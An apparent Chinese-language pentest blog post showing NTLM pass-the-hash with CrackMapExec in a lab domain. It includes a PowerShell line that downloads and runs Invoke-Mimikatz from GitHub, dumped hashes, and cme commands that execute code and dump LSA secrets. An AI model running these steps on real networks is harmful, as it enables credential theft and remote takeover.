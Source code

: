 ```yaml
---
layout: post
title:  "使用CrackMapExec 进行 NTLM Hash传递攻击"
date:   2018-03-27
categories: 内网渗透
permalink: /archivers/2018-03-27/1
description: "本文介绍一个工具 - CrackMapExec 进行 NTLM Hash传递攻击"
---
```


本文介绍一个工具 - CrackMapExec 进行 NTLM Hash传递攻击
<!--more-->


## 0x01 前言

早期`SMB`协议在网络上传输明文口令。后来出现 `LAN Manager Challenge/Response `验证机制，简称`LM`，它是如此简单以至很容易就被破解。微软提出了WindowsNT挑战/响应验证机制，称之为NTLM。

从`Win2000`开始默认协议为`Kerboros`，下列情况会调用`NTLM`：

* 遗留客户端或服务器需要登录到网络或本地时。
* UNIX客户端需要与NT服务器通话时。
* 有正在使用验证`NTLM`的服务器信息块`（SMB）`后台程序的UNIX客户端时。
* 也即认证方或被认证方有仅支持NTLM情况时。

它以`挑战/响应（Challenge/Response）`顺序为基础。


* 1.客户端发送用户名和域名到服务器。
* 2.服务器转发到域控制器DC。
* 3.`DC`用客户端密码随机产生一个`8字节`得挑战`（Challenge）`，发送给服务器。
* 4.服务器将挑战转发给客户端。
* 5.客户端用密码经过`hash`及`DES`加密算法等操作得到一个加密结果响应`（Response）`发送给服务器。
* 6.服务器将响应转发给`DC`。
* 7.`DC`做同样操作验证客户端响应。
* 8.验证结束，返回结果通知服务器。


## 0x02 NTLM对渗透的作用

NTLM就好像是一个令牌，有了这个令牌就相当于获取了这个令牌所属者的权限。

最大的特点就是我们可以使用`SMB`执行`Command`。

## 0x03 CrackMapExec 介绍

CrackMapExec提供了域环境（活动目录）渗透测试中一站式便携工具，它具有列举登录用户、通过SMB(Server Message Block)网络文件共享协议爬虫列出SMB分享列表，执行类似于Psexec的攻击、使用powerShell脚本执行自动式Mimikatz/Shellcode/DLL注入到内存中，dump NTDS.dit密码。


WiKi:https://github.com/byt3bl33d3r/CrackMapExec/wiki

## 0x03 安装CrackMapExec

### Kali Linux

`apt-get install crackmapexec`

### Debian/Ubuntu

```
apt-get install -y libssl-dev libffi-dev python-dev build-essential
pip install crackmapexec
```

## 0x04 传递NTLM Hash执行命令

### 使用`Mimikatz`获取`NTLM Hash`

```

PS C:\Users\administrator\Documents>IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1')

PS C:\Users\administrator\Documents>Invoke-Mimikatz

```

获取NTLM Hash

```
****
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : PAYLOADS
         * LM       : 5609e3f4c7c56d5fa86fb73c70515bd7
         * NTLM     : dab7de8feeb5ecac65faf9fdc6cac3a9
         * SHA1     : 67302089bba4993f2f845e5992db0a21e64679fa
        tspkg :
         * Username : Administrator
         * Domain   : PAYLOADS
         * Password : ****
        wdigest :
         * Username : Administrator
         * Domain   : PAYLOADS
         * Password : ****
        kerberos :
         * Username : Administrator
         * Domain   : PAYLOADS.ONLINE
         * Password : ****
        ssp :
        credman :

****

```

### 使用`CrackMapExec`执行命令

```
root@kali:~/cache# cme smb 192.168.3.5 -u administrator -H dab7de8feeb5ecac65faf9fdc6cac3a9 -x whoami
SMB         192.168.3.5     445    LIYINGZHEA30B    [*] Windows 7 Ultimate 7601 Service Pack 1 x64 (name:LIYINGZHEA30B) (domain:PAYLOADS) (signing:False) (SMBv1:True)
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] PAYLOADS\administrator dab7de8feeb5ecac65faf9fdc6cac3a9 (Pwn3d!)
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] Executed command 
SMB         192.168.3.5     445    LIYINGZHEA30B    payloads\administrator
```

### 使用`CrackMapExec`获取本地密码(Local Security Authority)LSA

```
root@kali:~/cache# cme smb 192.168.3.5 -u administrator -H dab7de8feeb5ecac65faf9fdc6cac3a9 --lsa
SMB         192.168.3.5     445    LIYINGZHEA30B    [*] Windows 7 Ultimate 7601 Service Pack 1 x64 (name:LIYINGZHEA30B) (domain:PAYLOADS) (signing:False) (SMBv1:True)
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] PAYLOADS\administrator dab7de8feeb5ecac65faf9fdc6cac3a9 (Pwn3d!)
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] Dumping LSA secrets
SMB         192.168.3.5     445    LIYINGZHEA30B    WinHack:d3a4b1078aba22996575dd38056e3c99:PAYLOADS.ONLINE:PAYLOADS:::
SMB         192.168.3.5     445    LIYINGZHEA30B    Administrator:ff007a95ee46c0240e7f0c4b9b0c890a:PAYLOADS.ONLINE:PAYLOADS:::
SMB         192.168.3.5     445    LIYINGZHEA30B    PAYLOADS\LIYINGZHEA30B$:aad3b435b51404eeaad3b435b51404ee:eda8896ce9133d0bcaf0b6ece9cb0d45:::
SMB         192.168.3.5     445    LIYINGZHEA30B    DPAPI_SYSTEM:01000000faf06c0f43acbed98d62bd9829d053acb06a00f159e3419d193ff5be56c028fe8d7f0053161d9331
SMB         192.168.3.5     445    LIYINGZHEA30B    NL$KM:ac8c8a7ce1dd903d74a231a44fcf5df82db711df62e495da9b5f10c3a52dd618a8abce6975c69fea6a9ed69ff6511c62f9a750b5d696a69c3221dc0f1f849f3d
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] Dumped 5 LSA secrets to /root/.cme/logs/LIYINGZHEA30B_192.168.3.5_2018-03-27_155122.lsa and /root/.cme/logs/LIYINGZHEA30B_192.168.3.5_2018-03-27_155122.cached
```

### More ...

后续再加
